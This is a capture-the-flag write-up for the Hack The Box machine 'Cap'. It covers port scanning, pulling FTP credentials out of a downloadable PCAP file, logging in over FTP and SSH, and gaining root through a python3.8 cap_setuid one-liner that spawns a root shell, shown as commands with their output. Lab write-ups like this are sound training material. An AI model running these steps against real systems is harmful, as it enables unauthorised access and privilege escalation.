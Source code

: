 ## Default Information
IP address : 10.10.10.245
Operating System : Linux

## Enumeration
Lets start with running a network scan on the IP address using ```NMAP``` to identify the open ports and the services running on the open ports (NOTE: This might take up quite some time)
* sV : service detection
* sC : Run default nmap scripts
* A : identify the OS behind each ports
* -p- : scan all ports
```code 
sudo nmap -sC -sV -A -p- -T4 10.10.10.245 -vv
```
From the output of ```NMAP```, we are able to obtain the following information about the open ports:
| Port Number | Service | Version |
|-----|------------------|----------------------|
| 21	| FTP | vsftpd 3.0.3 |
| 22	| SSH | OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0) |
| 21	| HTTP | Gunicorn |

## Discovery
Visiting the webpage at ```10.10.10.245```, the site appears to be a security dashboard
![Screenshot of 10.10.10.245](https://github.com/joelczk/writeups/blob/main/HTB/Images/cap_securitydashboard.PNG)
The ```IP config``` and ```Network Status``` does not contain any fascinating information, but the ```security snapshot``` contains a PCAP file that can be downloaded. 
![Screenshot of security snapshot](https://github.com/joelczk/writeups/blob/main/HTB/Images/cap_securitysnapshot.PNG)
We will then proceed to save the PCAP file downloaded from ```http://10.10.10.245/data/0``` , ```http://10.10.10.245/data/1```, ```http://10.10.10.245/data/2``` and ```http://10.10.10.245/data/3```\
Viewing the PCAP file from ```http://10.10.10.245/data/0```, we are able to discover that there is a connection to the FTP server, and we are also able to retrieve the username and password to the FTP server
![Screenshot of FTP server](https://github.com/joelczk/writeups/blob/main/HTB/Images/cap_FTP.PNG)

## Exploitation
Now, we will login to the FTP server using the discovered username and password. Afterwards, we will download the ```user.txt``` file to our server.
```code                                                                           
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.10.245                                                     1 ⚙
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 May 27 09:16 .
drwxr-xr-x    3 0        0            4096 May 23 19:17 ..
lrwxrwxrwx    1 0        0               9 May 15 21:40 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23 19:17 .cache
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
lrwxrwxrwx    1 0        0               9 May 27 09:16 .viminfo -> /dev/null
-r--------    1 1001     1001           33 Aug 08 10:24 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (298.3941 kB/s)
ftp>
```
We will find the key from the ```user.txt``` file using the ```cat``` command, to obtain our user key.\
Remembering that we have an SSH serve, we will now try to login to the SSH server. In the SSH server, we notice that the user ```nathan``` is unable to run sudo commands. Hence,we will start by searching for sudo permissions or SUID binaries that could escalate privileges and help us obtain the root shell.
```code
──(kali㉿kali)-[~]
└─$ ssh nathan@10.10.10.245                                              2 ⚙
nathan@10.10.10.245's password: 
nathan@cap:~$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap.
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
nathan@cap:~$ 
```
We notice that ```python 3.8``` has a ```setuid``` command that can help us escalate to UID 0(root) and obtain a root shell. From there, we will be able to obtain our system flag.
```code
nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# cd /root
root@cap:/root# cat root.txt
```
